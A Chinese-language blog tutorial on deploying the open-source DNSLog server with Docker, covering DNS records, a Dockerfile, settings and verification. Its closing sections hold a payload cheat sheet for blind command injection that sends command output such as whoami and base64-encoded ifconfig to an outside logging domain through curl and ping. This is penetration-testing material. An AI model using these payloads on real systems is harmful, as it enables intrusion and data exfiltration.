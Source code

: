 Title:使用docker搭建dnslog服务器：python版开源cloudeye的部署
Date: 2018-01-04 10:20
Category: 工具相关
Tags: dnslog,docker
Slug: 
Authors: bit4
Summary: python版开源cloudeye的部署



本文档主要记录使用docker搭建dnslog的过程。

https://github.com/BugScanTeam/DNSLog

感谢[草粉师傅](https://github.com/coffeehb)的帮助

### 0x0、域名和配置

搭建并使用 DNSLog，需要拥有两个域名：

1. 一个作为 NS 服务器域名(例:code2sec.com)：在其中设置两条 A 记录指向我们的公网 IP 地址（无需修改DNS服务器，使用运营商默认的就可以了）：

```
ns1.code2sec.com  A 记录指向  10.11.12.13
ns2.code2sec.com  A 记录指向  10.11.12.13
```

2. 一个用于记录域名(例: 0v0.com)：修改 0v0.com 的 NS 记录为 1 中设定的两个域名（无需修改DNS服务器，使用运营商默认的就可以了）：

```
NS	*.0v0.com	ns1.code2sec.com
NS	*.0v0.com	ns2.code2sec.com
```

<u>注意：按照dnslog的说明是修改NS记录，但是自己的部署中修改了好几天之后仍然不正常，就转为修改DNS服务器，而后成功了。修改DNS服务器之后就无需在域名管理页面设置任何DNS记录了，因为这部分是在DNSlog的python代码中实现的。</u>

![changeNameServer](img/docker+dnslog/changeNameServer.png)

### 0x1、docker镜像构造

dockerfile内容如下

```dockerfile
FROM ubuntu:14.04

RUN sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list

RUN apt-get update -y && apt-get install -y python && apt-get install python-pip -y && apt-get install git -y
RUN git clone https://github.com/BugScanTeam/DNSLog
WORKDIR /DNSLog/dnslog
RUN pip install -r requirements.pip

COPY ./settings.py /DNSLog/dnslog/dnslog/settings.py

COPY ./start.sh /DNSLog/dnslog/start.sh
RUN chmod +x start.sh
CMD ["./start.sh"]

EXPOSE 80
```

下载 `dnslog/dnslog/settings.py`并对如下字段进行对应的修改，保存settings.py：

```python
# 做 dns 记录的域名
DNS_DOMAIN = '0v0.com'

# 记录管理的域名, 这里前缀根据个人喜好来定
ADMIN_DOMAIN = 'admin.0v0.com'

# NS域名
NS1_DOMAIN = 'ns1.code2sec.com'
NS2_DOMAIN = 'ns2.code2sec.com'

# 服务器外网地址
SERVER_IP = '10.11.12.13'
```

创建一个dnslog的启动脚本，保存为start.sh：

```bash
#!/bin/bash
python manage.py runserver 0.0.0.0:80
```

准备好如上3个文件后，可以构建镜像了

```bash
docker build .
docker tag e99c409f6585 bit4/dnslog
docker run -d -it -p 80:80 -p 53:53/udp bit4/dnslog
#注意这个53udp端口，感谢CF_HB师傅的指导

docker exec -it container_ID_or_name /bin/bash
./start.sh
```



### 0x2、配置验证

使用nslookup命令进行验证，如果可以直接测试xxx.test.0v0.com了，说明所有配置已经全部生效；如果直接查询失败，而指定了dns服务器为 ns1.code2sec.com查询成功，说明dns服务器配置正确了，但是ns记录的设置需要等待同步或者配置错误。

```
nslookup
xxx.test.0v0.com
server ns1.code2sec.com
yyy.test.0v0.com
```

当然，在查询的同时可以登录网页端配合查看，是否收到请求。

在我自己的部署中，发现修改ns记录很久后仍然不能直接查询到 xxx.test.0v0.com，想到NS记录配置和DNS服务器设置都是修改解析的域名的服务器配置，就尝试修改了DNS服务器为 ns1.code2sec.com, 结果就一切正常了。



### 0x3、管理网站

后台地址：http://0v0.com/admin/  admin admin

用户地址：http://admin.0v0.com/ test 123456

更多详细问题参考项目https://github.com/BugScanTeam/DNSLog

**记得修改默认的账号密码！**



### 0x4、payload使用技巧

用||兼容windows和linux

```bash
ipconfig || ifconfig
#||是或逻辑， 如果第一个命令执行成功，将不会执行第二个；而如果第一个执行失败，将会执行第二个。

使用实例：
ping -n 3 xxx.test.0v0.com || ping -c 3 xxx.test.0v0.com
```



命令优先执行

```bash
%OS%
#windows的系统变量，用set命令可以查看所有可用的变量名称
`whomai` 
#linux下的命令优先执行,注意是反引号（`）这个字符一般在键盘的左上角，数字1的左边

测试效果如下:
root@ubuntu:~# echo `whoami`@bit4
root@bit4

E:\>echo %OS%@bit4
Windows_NT@bit4

使用实例：
curl "http://xxx.test.0v0.com/?`whoami`"
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com
#DNS记录中获取源IP地址
```

![command_first](img/docker+dnslog/command_first.png)

消除空格

```bash
id|base64

使用实例：
curl test.0v0.com/`ifconfig|base64 -w 0` 
#-w 0 输出内容不换行，推荐这个方法
curl test.0v0.com/`ifconfig|base64|tr '\n' '-'`
#将换行符替换为-，这个方法不是很方便，解密的时候还需要替换回来
```

![base64](img/docker+dnslog/base64.png)

window下的curl

```bash
start http://xxxxxxxxx.test.0v0.com
#该命令的作用是通过默认浏览器打开网站，缺点是会打开窗口
```



### 0x5、常用payload汇总



```bash
#1.判断系统类型
ping `uname`.0v0.com || ping %OS%.0v0.com

#2.通用ping，dns类型payload
ping -n 3 xxx.0v0.com || ping -c 3 xxx.0v0.com

C:\Windows\System32\cmd.exe /c "ping -n 3 test.com || ping -c 3 test.com"
/bin/bash -c "ping -n 3 test.com || ping -c 3 test.com"


======================================分割线=====================================


#3.从DNS记录中获取源IP地址
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com

#4.获取命令结果
curl test.0v0.com/`ifconfig|base64 -w 0`

```

